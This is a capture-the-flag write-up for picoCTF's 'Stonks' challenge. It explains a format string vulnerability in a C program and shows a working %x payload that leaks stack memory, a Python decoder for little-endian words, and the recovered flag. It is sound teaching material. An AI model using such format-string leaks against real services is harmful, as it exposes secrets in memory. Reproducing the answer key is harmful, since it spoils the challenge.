




# Stonks

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](vuln.c) `nc mercury.picoctf.net 27912`


## Hints

1. Okay, maybe I'd believe you if you find my API key.

### Solution

After examining the source code [vuln.c](vuln.c), I noticed that there are two places that take user input:


1. Line `136`: To select what we would like to do after running the application
1. Line `91`: To get the user provided API token


Immediately, I realized that we could combine line `91` with line `93` to leak the data on the stack.


Since the user API token string is unchecked user input, we could use a [Format String Vulnerability](https://en.wikipedia.org/wiki/Uncontrolled_format_string) to print the stack.


Before we could explain the exploit, it's important to understand the memory layout in [C](https://en.wikipedia.org/wiki/C_(programming_language)).





The stack is growing down! For historical reasons, the code segment starts from address zero upwards, and the stack starts at the end of the memory and grows downwards. For more information please read [Why does the stack grow downward?](https://softwareengineering.stackexchange.com/questions/137640/why-does-the-stack-grow-downward).


Thus, whenever a new function is called the [call stack](https://en.wikipedia.org/wiki/Call_stack) is growing downwards. However any strings on the stack continue to grow upwards.






Now that we understand the memory layout in `C`, it's now important to understand [printf format string](https://en.wikipedia.org/wiki/Printf_format_string).


A [printf](https://cplusplus.com/reference/cstdio/printf/) begins with a `%`. `Printf` allows us to print an unsigned hexadecimal integer by providing `%x` in the format string. However, when we don't provide another argument to `printf` other than the format string (which is exactly the case on line 93), then `%x` would print some memory content of the `printf` stack frame. Also, considering that the stack grows down, and strings grow upwards, we could leak the memory content of the previous stack frame.


This is how the call stack should look for [vuln.c](vuln.c):

```
----------
main
----------
buy_stonks
----------
printf          # Line 93
----------
```

Thus, when we pass `%x` as the `API token` then we get back data on the stack.


```shell
$ nc mercury.picoctf.net 27912
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x
Buying stonks with token:
9e0a390
Portfolio as of Fri Jan 27 03:44:46 UTC 2023


1 shares of UH
6 shares of XE
5 shares of BEAN
954 shares of VXLE
402 shares of FOUK
Goodbye!
```


However, we could pass in many more `%x` as the `API token`. More precisely, we could pass in an API token that is up to 300 characters long. This length limit is set by line 91.


Considering, that `x86` has a 32 bit [word size](https://en.wikipedia.org/wiki/Word_(computer_architecture)), we want the stack memory printed as 4 bytes. We could do this by setting a [width](https://cplusplus.com/reference/cstdio/printf/) in the format string.


```
%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.
```


Passing the above as the API token returns:

```shell
$ nc mercury.picoctf.net 27912
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.
Buying stonks with token:
8c86430.804b000.80489c3.f7f16d80.ffffffff.   1.8c84160.f7f24110.f7f16dc7.   0.8c85180.   2.8c86410.8c86430.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.32666331.30613130.ffd5007d.f7f51af8.f7f24440.51c3c700.   1.   0.f7db3ce9.f7f250c0.f7f165c0.f7f16000.ffd58d98.f7da468d.f7f165c0.8048eca.ffd58da4.   0.f7f38f09.804b000.f7f16000.f7f16e20.ffd58dd8.f7f3ed50.f7f17890.51c3c700.f7f16000.804b000.ffd58dd8.8048c86.8c84160.ffd58dc4.ffd58dd8.8048be9.f7f163fc.   0.ffd58e8c.ffd58e84.   1.   1.8c84160.51c3c700.ffd58df0.   0.   0.f7d59fa1.f7f16000.f7f16000.   0.f7d59fa1.   1.ffd58e84.ffd58e8c.ffd58e14.
Portfolio as of Fri Jan 27 03:51:30 UTC 2023


2 shares of WNQ
1 shares of WV
9 shares of XKLS
4 shares of S
3 shares of A
6 shares of Z
9 shares of PW
22 shares of EBF
1 shares of B
763 shares of VUBQ
Goodbye!
```


Thus, the following is the stack content:

```
8c86430.804b000.80489c3.f7f16d80.ffffffff.   1.8c84160.f7f24110.f7f16dc7.   0.8c85180.   2.8c86410.8c86430.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.32666331.30613130.ffd5007d.f7f51af8.f7f24440.51c3c700.   1.   0.f7db3ce9.f7f250c0.f7f165c0.f7f16000.ffd58d98.f7da468d.f7f165c0.8048eca.ffd58da4.   0.f7f38f09.804b000.f7f16000.f7f16e20.ffd58dd8.f7f3ed50.f7f17890.51c3c700.f7f16000.804b000.ffd58dd8.8048c86.8c84160.ffd58dc4.ffd58dd8.8048be9.f7f163fc.   0.ffd58e8c.ffd58e84.   1.   1.8c84160.51c3c700.ffd58df0.   0.   0.f7d59fa1.f7f16000.f7f16000.   0.f7d59fa1.   1.ffd58e84.ffd58e8c.ffd58e14.
```


Considering that string grow upwards and the stack grows down, it's possible that the flag (stored on the stack, see line 66) is in that output!


To determine if the flag is in the output, we'll have to clean up the memory content, and convert the hexadecimal values to [ASCII](https://en.wikipedia.org/wiki/ASCII).


However, before we could do any conversion, it's important to understand how bytes are stored in memory. On an [x86](https://en.wikipedia.org/wiki/X86) system, the bytes are stored as [little endian](https://en.wikipedia.org/wiki/Endianness).





I wrote this [Python](https://en.wikipedia.org/wiki/Python_(programming_language)) script, that splits the string into individual words, converts the bytes to ASCII, then reverses the word to account for endianness.


```python
def words_to_ascii(words: list[str]) -> list[str]:
  result = list()

  for word in words:
    char_list = list()
    for i in range(0, 8, 2):
      hex_str = "0x{}{}".format(word[i], word[i+1])
      byte_decimal_value = int(hex_str, 16)
      char_list.append(chr(byte_decimal_value))

    # We reverse the cur_str because x86 is little endian
    char_list.reverse()

    result.append("".join(char_list))

  return result


if __name__ == "__main__":
  raw_word_str = input()
  words = [word.strip() for word in raw_word_str.split(".")]
  words = list(filter(lambda word: len(word) == 8, words))

  print("".join(words_to_ascii(words)))
```


Running this script on the memory content output should print all the ASCII character:


```shell
$ echo '8c86430.804b000.80489c3.f7f16d80.ffffff
ff.   1.8c84160.f7f24110.f7f16dc7.   0.8c85180.   2.8c86410.8c86430.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.32666331.30613130.ffd5007d.f7f51af8.f7f24440.51c3c700.   1.   0.f7db3ce9.f7f250c0.f7f165c0.f7f16000.ffd58d98.f7da468d.f7f165c0.8048eca.ffd58da4.   0.f7f38f09.804b000.f7f16000.f7f16e20.ffd58dd8.f7f3ed50.f7f17890.51c3c700.f7f16000.804b000.ffd58dd8.8048c86.8c84160.ffd58dc4.ffd58dd8.8048be9.f7f163fc.   0.ffd58e8c.ffd58e84.   1.   1.8c84160.51c3c700.ffd58df0.   0.   0.f7d59fa1.f7f16000.f7f16000.   0.f7d59fa1.   1.ffd58e84.ffd58e8c.ffd58e14.' | python mem_print.py

€mñ÷ÿÿÿÿAò÷Çmñ÷picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}Õÿø?õ÷@Dò÷ÇÃQé<Û÷ÀPò÷Àeñ÷`ñ÷˜ÕÿFÚ÷Àeñ÷¤Õÿ      ó÷`ñ÷ nñ÷؍ÕÿPíó÷xñ÷ÇÃQ`ñ÷؍ÕÿčÕÿ؍Õÿücñ÷ŒŽÕÿ„ŽÕÿÇÃQðÕÿ¡ŸÕ÷`ñ÷`ñ÷¡ŸÕ÷„ŽÕÿŒŽÕÿŽÕÿ
```


Analyzing the output, we see the flag. Lets use [grep](https://en.wikipedia.org/wiki/Grep) to print only the flag.


```shell
$ echo '8c86430.804b000.80489c3.f7f16d80.ffffffff.   1.8c84160.f7f24110.f7f16dc7.   0.8c85180.   2.8c86410.8c86430.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.32666331.30613130.ffd5007d.f7f51af8.f7f24440.51c3c700.   1.   0.f7db3ce9.f7f250c0.f7f165c0.f7f16000.ffd58d98.f7da468d.f7f165c0.8048eca.ffd58da4.   0.f7f38f09.804b000.f7f16000.f7f16e20.ffd58dd8.f7f3ed50.f7f17890.51c3c700.f7f16000.804b000.ffd58dd8.8048c86.8c84160.ffd58dc4.ffd58dd8.8048be9.f7f163fc.   0.ffd58e8c.ffd58e84.   1.   1.8c84160.51c3c700.ffd58df0.   0.   0.f7d59fa1.f7f16000.f7f16000.   0.f7d59fa1.   1.ffd58e84.ffd58e8c.ffd58e14.' | python mem_print.py | grep -oa 'picoCTF{.*}'

picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}
```


#### Flag
```
picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}
```